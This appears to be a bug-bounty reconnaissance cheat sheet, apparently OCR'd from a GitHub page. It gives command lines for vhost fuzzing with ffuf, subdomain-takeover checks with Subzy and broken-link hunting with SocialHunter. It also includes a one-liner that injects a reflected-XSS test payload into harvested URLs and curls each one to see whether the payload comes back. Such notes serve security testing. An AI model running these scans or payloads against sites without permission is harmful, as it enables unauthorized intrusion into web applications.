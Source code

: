 Quick guide:
1) Install and use a tool like ffuf
```
2) ffuf -u $TARGET -H "Host: FUZZ.$TARGET" -w /path/to/wordlist
```
3) Now filter for live hosts in the results

Example👇

https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-5000.txt

> Wordlist:/usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt


### Bonus:

# ! This is basic Recon, So if you're really looking for it, see in the actual file for SDTO 

### 8.1 Subdomain Takeover:

Use **Subzy** to detect potential subdomain takeovers:

```css
subzy run --targets alive_subdomains.txt
```

### 8.2 Broken Link Hijacking:

Run **SocialHunter** to find broken links:

```typescript
socialhunter -f alive_subdomains.txt
```

**Github Link:** **[Socialhunter](https://github.com/utkusen/socialhunter)**

### 8.3 Cross-Site Scripting (XSS):

Check for XSS vulnerabilities using **ParamSpider**:

```bash
paramspider -d target.com | qsreplace '"/><script>confirm(1)</script>' > xss.txt
cat xss.txt | while read url; do curl --silent --path-as-is --insecure "$url" | grep -qs "<script>confirm(1)" && echo "$url \\033[0;31mVulnerable\\n" || echo "$url \\033[0;32mNot Vulnerable\\n"; done
```

				Modify the payload as needed to suit your target.

**Github Link:****[ParamSpider](https://github.com/devanshbatham/ParamSpider)**

## Simple Temp Mail Bypass Method:

![[Pasted image 20250426103416.png]]
